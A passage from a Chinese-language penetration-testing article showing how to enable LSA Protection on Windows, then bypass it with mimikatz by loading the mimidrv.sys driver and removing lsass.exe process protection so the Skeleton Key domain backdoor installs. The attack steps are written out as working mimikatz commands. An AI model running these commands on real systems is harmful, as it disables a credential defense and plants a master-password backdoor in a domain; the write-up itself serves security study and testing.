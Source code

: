 注册表位置：  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`

如图![Alt text](http://drops.javaweb.org/uploads/images/6b699f820beece9f74de34fe05967986a4aed200.jpg)

新建-`DWORD`值，名称为`RunAsPPL`,数值为`00000001`

如图![Alt text](http://drops.javaweb.org/uploads/images/46966997d6e8e755476656fa4c2af01d9d0a0b8c.jpg)

重启系统

**（2）**测试Skeleton Key

**mimikatz命令：**

```
privilege::debug
misc::skeleton

```

此时失败![Alt text](http://drops.javaweb.org/uploads/images/bd00eabede9db9d1ea05ae5fe1b2537f9638cb3d.jpg)

**（3）**绕过LSA Protection

mimikatz早在2013年10月就已支持绕过LSA Protection

如图![Alt text](http://drops.javaweb.org/uploads/images/3446b0cb0a66cb03c88a36920e7134aa73e98f47.jpg)

**参考源码：**  
[https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c)

**注：**  
该功能需要mimidrv.sys文件

![Alt text](http://drops.javaweb.org/uploads/images/c1eb713ef6266094794a8c8671f873b732d7ad25.jpg)

**mimikatz命令：**

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton

```

如图，导入驱动文件mimidrv.sys后，绕过LSA Protection，操作成功

![Alt text](http://drops.javaweb.org/uploads/images/9518fe208632b7d4cb0fd9f9af6193bcb80d1a27.jpg)

0x03 补充
=====

分享一些常见问题的解决方法，管理员常常会禁用一些重要程序的运行，比如cmd、regedit、taskmgr

### 1、如何禁用cmd、regedit、taskmgr
